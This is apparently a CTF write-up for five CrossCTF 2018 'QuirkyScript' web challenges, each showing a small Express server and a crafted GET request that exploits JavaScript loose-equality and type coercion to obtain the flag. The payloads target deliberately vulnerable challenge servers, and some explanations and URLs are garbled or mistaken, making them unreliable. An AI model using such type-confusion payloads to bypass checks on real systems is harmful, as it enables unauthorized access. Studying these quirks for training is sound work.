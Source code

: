 # Crossctf 2018 Qualifier Writeups (WIP)

## Web
QruirkyScript 1 - 5 were do-able by referncing the truthy table from: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Equality_comparisons_and_sameness

### QuirkyScript 1
```
var flag = require("./flag.js");
var express = require('express')
var app = express()

app.get('/flag', function (req, res) {
    if (req.query.first) {
        if (req.query.first.length == 8 && req.query.first == ",,,,,,," ) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});

app.listen(31337)
```

The following condition must be met: Length = 8 and variable must be ',,,,,,,'. To achieve this, an empty array of size 8 will match the length 8, and the empty commas in the array will be treated as a string of commas when the following is passed in: [,,,,,,,]

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://target/flag?first=&first=&first=&first=&first=&first=&first=&first=&first=```

CrossCTF{C0mm4s_4ll_th3_w4y_t0_th3_fl4g}



### QuirkyScript 2
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.second) {
        if (req.query.second != "1" && req.query.second.length == 10 && req.query.second == true) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```

The following condition must be met: Length = 10 and variable must be TRUE. To achieve this, we need to abuse the weak comparator. In javascript, 1 = true, and 0000000001 == true. (Got this from multiple testing of how values are compared. Read the above link for more information on how == comapres values)

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://target/flag?second?=0000000001```

CrossCTF{M4ny_w4ys_t0_mak3_4_numb3r}



### QuirkyScript 3 (to be updated)
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.third) {
        if (Array.isArray(req.query.third)) {
            third = req.query.third;
            third_sorted = req.query.third.sort();
            if (Number.parseInt(third[0]) > Number.parseInt(third[1]) && third_sorted[0] == third[0] && third_sorted[1] == third[1]) {
                res.send(flag.flag);
                return;
            }
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```
The following condition must be met after the array is sorted. The first element in the array (after converting into an Integer) must be larger than the second element (after converstion) and the indexes of the element in the original array before and after sorting must be the same. We understand that the browser will take in our GET request as a string and the sorting will be done based on the first character of the string.

To achieve the conditions, we look into the ascii table to find the hexadecimal representation of each number and chose a relatively large number which has hexadecimal starting with 0. We chose 0xA (Decimal 10). ```http://target/flag?third?=0xA&third=1```

CrossCTF{th4t_r0ck3t_1s_hug3}



### QuirkyScript 4
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    if (req.query.fourth) {
        if (req.query.fourth == 1 && req.query.fourth.indexOf("1") == -1) {
            res.send(flag.flag);
            return;
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```

The following condition must be met: variable = 1 and "1" is not the variable. WUT?!
To achieve this, we need to abuse the weak comparator. In javascript, [0x01] == 1 (WOW), and suprisingly, if a=[0x01], a.indexOf("1") = -1. SO CONDITION IS MET! Additionally, I remembered from one of my web class that we can past in an array for GET request using the [].

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://ctf.pwn.sg:8084/flag?fourth[]=0x01```

CrossCTF{1m_g0ing_hungry}



### QuirkyScript 5
```
var flag = require("./flag.js");
var express = require('express')
var app = express()
app.get('/flag', function(req, res) {
    var re = new RegExp('^I_AM_ELEET_HAX0R$', 'g');
    if (re.test(req.query.fifth)) {
        if (req.query.fifth === req.query.six && !re.test(req.query.six)) {
            res.send(flag.flag);
        }
    }
    res.send("Try to solve this.");
});
app.listen(31337)
```

For this, me and my teammates were not able to explain why our GET request worked. But it seems like passing ```I_AM_ELEET_HAX0R``` to variables firth and six fulfills the if condition.

Therefore, to achieve this, the following get request will fulfill the conditions: ```http://ctf.pwn.sg:8085/flag?fifth=I_AM_ELEET_HAX0R&six=I_AM_ELEET_HAX0R```

CrossCTF{1_am_n1k0las_ray_zhizihizhao}